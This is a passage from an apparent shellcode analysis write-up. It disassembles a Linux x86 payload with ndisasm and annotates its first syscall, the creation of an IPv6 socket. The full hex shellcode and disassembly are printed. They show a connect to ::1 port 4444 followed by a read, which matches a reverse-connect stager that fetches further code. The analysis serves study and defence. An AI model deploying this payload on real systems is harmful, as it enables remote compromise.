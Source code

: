 
#### ndisasm Disassembly

ndisasm can be used to disassemble the shellcode into meaningful assembly instructions.

```nasm
skawa@ubuntu:~/libemu/tools/sctest$ echo -ne "\x31\xdb\x53\x43\x53\x6a\x0a\x89\xe1\x6a\x66\x58\xcd\x80\x96\x99\x68\x00\x00\x00\x00\x68\x00\x00\x00\x01\x68\x00\x00\x00\x00\x68\x00\x00\x00\x00\x68\x00\x00\x00\x00\x52\x66\x68\x11\x5c\x66\x68\x0a\x00\x89\xe1\x6a\x1c\x51\x56\x89\xe1\x43\x43\x6a\x66\x58\xcd\x80\x89\xf3\xb6\x0c\xb0\x03\xcd\x80\x89\xdf" | ndisasm -u -
00000000  31DB              xor ebx,ebx
00000002  53                push ebx
00000003  43                inc ebx
00000004  53                push ebx
00000005  6A0A              push byte +0xa
00000007  89E1              mov ecx,esp
00000009  6A66              push byte +0x66
0000000B  58                pop eax
0000000C  CD80              int 0x80
0000000E  96                xchg eax,esi
0000000F  99                cdq
00000010  6800000000        push dword 0x0
00000015  6800000001        push dword 0x1000000
0000001A  6800000000        push dword 0x0
0000001F  6800000000        push dword 0x0
00000024  6800000000        push dword 0x0
00000029  52                push edx
0000002A  6668115C          push word 0x5c11
0000002E  66680A00          push word 0xa
00000032  89E1              mov ecx,esp
00000034  6A1C              push byte +0x1c
00000036  51                push ecx
00000037  56                push esi
00000038  89E1              mov ecx,esp
0000003A  43                inc ebx
0000003B  43                inc ebx
0000003C  6A66              push byte +0x66
0000003E  58                pop eax
0000003F  CD80              int 0x80
00000041  89F3              mov ebx,esi
00000043  B60C              mov dh,0xc
00000045  B003              mov al,0x3
00000047  CD80              int 0x80
00000049  89DF              mov edi,ebx
skawa@ubuntu:~/libemu/tools/sctest$
```

Looking at the disassembly above, there are three system call interrupts.

#### Interrupt 1 - Socket Creation
The first chunk of instructions are responsible for creating a IPv6 socket.

```nasm
xor ebx,ebx     ;clear out ebx
push ebx        ;socket protocol 0x0 is moved on to the stack
inc ebx         ;socketcall type, socket
push ebx        ;socket type 1, SOCK_STREAM, is moved on to the stack
push byte +0xa  ;push socket type 10 (INET6) on to the stack
mov ecx,esp     ;all arguments for socket, as required by socketcall are pointed to by ECX
push byte +0x66 ;push 102 onto the stack (socketcall)
pop eax         ;socketcall syscall
int 0x80        ;execute socketcall
```
